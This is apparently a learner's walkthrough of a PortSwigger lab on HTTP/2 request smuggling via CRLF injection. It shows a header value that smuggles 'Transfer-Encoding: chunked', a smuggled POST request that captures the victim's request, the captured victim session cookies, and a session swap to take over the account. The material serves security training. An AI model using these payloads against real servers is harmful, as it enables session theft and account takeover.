# HTTP/2 request smuggling via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

## If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to [the documentation](https://portswigger.net/burp/documentation/desktop/http2) for details on how to use them.

### The term `CRLF` refers to  `Carriage Return (ASCII 13, \r ) Line Feed (ASCII 10, \n )`

---

step 1



step 2


remove unnecessary header


step 3



step 4
add payload
name:
`foo`
value:
`bar\r\n`
`Transfer-Encoding: chunked`



step 5
add

```
0

search=test3

```



step 6

```
0

POST / HTTP/1.1
Host: 0a1000d2039488e3804bb75b00d800d4.web-security-academy.net
Cookie: session=MymYcTyskuyePyiQBQ83dlZEi5CNcxN8;
Content-Length: 13

search=test3
```


step 7
unmarked content-Length



step 8
increase content-Length



refresh home page you will get Post search result



step 9

wait for 10 second
increase content-Length
and search must be unique in each case



```
accept-language: en-US,en;q=0.9
cookie: victim-fingerprint=YmIWC1ZZCR96uu0kQRzpkzYfjZqqIOiZ; secret=D9HZfnx9Uirg30BtJgIyBUSnPULD2WWT; session=SG5N4hqr7GwwPgUFDm1qICzHKT8v6efM;
```

---

step 10
intercept login page with wrong userid and password



step 7

replace session id with victim session id




